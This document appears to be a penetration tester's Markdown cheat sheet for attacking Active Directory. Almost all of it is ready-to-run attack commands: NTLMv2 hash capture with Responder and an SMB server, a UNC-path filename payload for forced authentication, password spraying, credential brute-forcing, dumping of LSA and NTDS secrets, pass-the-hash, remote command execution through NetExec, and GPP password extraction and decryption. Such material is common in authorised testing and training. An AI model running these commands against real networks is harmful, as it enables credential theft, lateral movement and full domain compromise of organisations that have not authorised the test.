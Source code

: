 # 🔭 AD Enumeration

## Capturing NTLMv2 Hashes

```shell
# responder
sudo responder -I eth0

# smb server
impacket-smbserver -smb2support <sharename> $(pwd)
```

### UNC Attack

```shell
# from inside the machine (shortcut file, shell or web attack)
dir \\<IP>\test
Content-Disposition: form-data; name="myFile"; filename="\\\\<ip>\\test"
```

## Living off the Land

```shell
# list domain users
net user /domain
net user /domain <username>
# list domain groups
net group /domain
net group /domain <groupname>

# add user to group
net group <groupname> <username> /add /domain

# list a share
ls \\dc1.corp.com\sysvol\corp.com\

# password policies
net accounts /domain

# get current domain name
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

## PowerView

```shell
# if scripts can be imported
powershell -ep bypass
Import-Module .\PowerView.ps1

# domain info
Get-NetDomain
# list users
Get-NetUser
Get-NetUser | select cn
Get-NetUser <usercn>
# list groups
Get-NetGroup
Get-NetGroup | select cn
Get-NetGroup <groupcn> | select member
# list computers
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

# find local admin access under current user
Find-LocalAdminAccess
# see who is logged on
Get-NetSession -ComputerName <computer>
# if fails, use psloggedon.exe, needs Remote Registry active on host
PsLoggedon.exe \\<computer>

# list spn
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# or
setspn -L iis_service
# list Access Control Entries (ACE) of user
Get-ObjectAcl -Identity <user>
# convert SID to name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# filter by perm GenericAll for a specific group
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# find AS-REP Roastable accounts
Get-DomainUser -PreauthNotRequired -verbose
# find kerberoastable accounts
Get-NetUser -SPN | select serviceprincipalname

# find shares
Find-DomainShare
```

## Password Spraying

> <https://github.com/ropnop/kerbrute>

```shell
# nxc or cme
nxc smb <ip> -u users.txt -p <password> -d <domain> --continue-on-success

# kerbrute
kerbrute passwordspray -d <domain> users.txt <password> --dc <dc_ip>
```

## User Enumeration

> <https://github.com/lkarlslund/ldapnomnom>

```shell
# enum users via Kerberos
kerbrute enumusers --dc <ip> -d <domain> <userlist>

# LDAPnomnom
ldapnomnom -dnsdomain <domain> -server <dc-ip> -input <wordlist>

# windows
.\Rubeus.exe brute /users:<userlist> /passwords:<wordlist> /domain:<domain>
```

## Credential Testing

!!! tip
    🍪 NetExec

    - `[+]` is valid credentials
    - `[pwned!]` is valid credential with privileges 

```shell
# nxc
# check valid domain credentials
nxc smb <ip> -u <user> -p <password> -d <domain>
# check valid local credentials
nxc smb <ip> -u <user> -p <password> --local-auth

# check in a range of machines
nxc smb x.x.x.70-76 -u <user> -p <password> -d <domain> --continue-on-success

# with a userlist and wordlist
nxc smb <ip> -u <userlist> -p <wordlist> -d <domain> --continue-on-success

# list shares, users or all
nxc smb <ip> -u <user> -p <pass> -d <domain> --shares
nxc smb <ip> -u <user> -p <pass> -d <domain> --users
nxc smb <ip> -u <user> -p <pass> -d <domain> --all

# dump lsa or ntds
nxc smb <ip> -u <user> -p <pass> --lsa
nxc smb <ip> -u <user> -p <pass> --ntds

# enumerate users by rid
nxc smb <ip> -u 'guest' -p '' --rid-brute

# execute a command
nxc smb <ip> -u <user> -p <pass> -x <command>

# PTH
nxc smb <ip> -u <user> -H <hash> 

# kerbrute
kerbrute brute -d <domain> -u <user> -p <wordlist>
```

## GPP password in SYSVOL policy

```shell
# manual
grep -inr "cpassword" . --include=*.xml

# GPPPassword
# with NULL session
impacket-Get-GPPPassword -no-pass <ip>
# with creds
impacket-Get-GPPPassword <domain>/<user>:<pass>@<ip>
# parse a local file
impacket-Get-GPPPassword -xmlfile <Policy>.xml local

# nxc
nxc smb <ip> -u <user> -p <pass> -d <domain> -M gpp_password
```

Decrypt the password

```shell
gpp-decrypt <pass>
```

## BloodHound

```shell
sudo neo4j start
bloodhound
# upload collected zip 
```

### SharpHound

!!! warning
    For Bloodhound legacy (4.3.1) compatibility, use sharphound [v1.1.1.1](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)

```shell
.\SharpHound.exe -c All

Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "dom audit"
```

### bloodhound-python

```shell
bloodhound-python -c All -u <user> -p <pass> -d <domain> -dc <dc_hostname> -ns <ns_ip> --zip 
```

## LDAPDomainDump

```shell
ldapdomaindump -u '<domain>\<user>' -p '<pass>' <ip>
```

## Automated Enumeration

### ADpeas

> <https://github.com/61106960/adPEAS>

```shell
Import-Module .\adPEAS.ps1
Invoke-adPEAS
```
